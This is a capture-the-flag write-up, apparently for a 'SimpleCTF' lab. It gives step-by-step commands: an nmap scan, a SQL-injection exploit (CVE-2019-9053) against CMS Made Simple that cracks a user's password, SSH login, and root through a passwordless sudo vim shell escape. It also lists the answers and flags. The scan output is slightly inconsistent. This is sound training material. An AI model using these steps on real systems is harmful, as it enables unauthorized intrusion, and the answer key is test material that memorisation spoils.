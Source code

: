 # SimpleCTF

## #1 How many services are running under port 1000?
Save ip as a variable
```
export ip=<ip>
```

Run Nmap scan to scan the host for open ports
```
nmap $ip
21/tcp   closed ftp
80/tcp   closed http
2222/tcp closed EtherNetIP-1
```
Answer:
`
2
`


## #2 What is running on the higher port?
```
nmap -p2222 -sV -sC $ip

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

Answer:
`
SSH
`

## #3 What's the CVE you're using against the application?
CMS Made Simple version 2.2.8

Answer:
`
CVE-2019-9053
`

## #4 To what kind of vulnerability is the application vulnerable?

Answer:
`
sqli
`
## #5 What's the password?
Search for exploit using searchsploit
```
searchsploit cms made simple
```

Copying the exploit file to folder
```
searchsploit -m php/webapps/46635.py
```

Using the exploit to get username and password
```
python 46635.py -u http://$ip/simple -c -w /opt/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

Answer
`
secret
`

## #6 Where can you login with the details obtained?
Connect to SSH
```
ssh mitch@$ip -p 2222
```

## #7 What's the user flag?
```
cd
cat user.txt
```

Answer:
`
G00d j0b, keep up!
`

## #8 Is there any other user in the home directory? What's its name?
Start with stabilizing the shell
```
python -c "import pty; pty.spawn('/bin/bash')" 
```
ls the user folders
```
cd
cd ..
ls
mitch  sunbath
```

Answer:
`
sunbath
`

## #9 What can you leverage to spawn a privileged shell?
List out what we can do
```
sudo -l
```
We can use vim as root without using the password
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Get root by using vim.
```
sudo vim -c ':!/bin/sh'
```

Answer:
`
vim
`

## #10 What's the root flag?
Stabilize the shell after getting root
```
python -c "import pty; pty.spawn('/bin/bash')"
```
```
cat /root/root.txt
```

Answer:
`
W3ll d0n3. You made it!
`
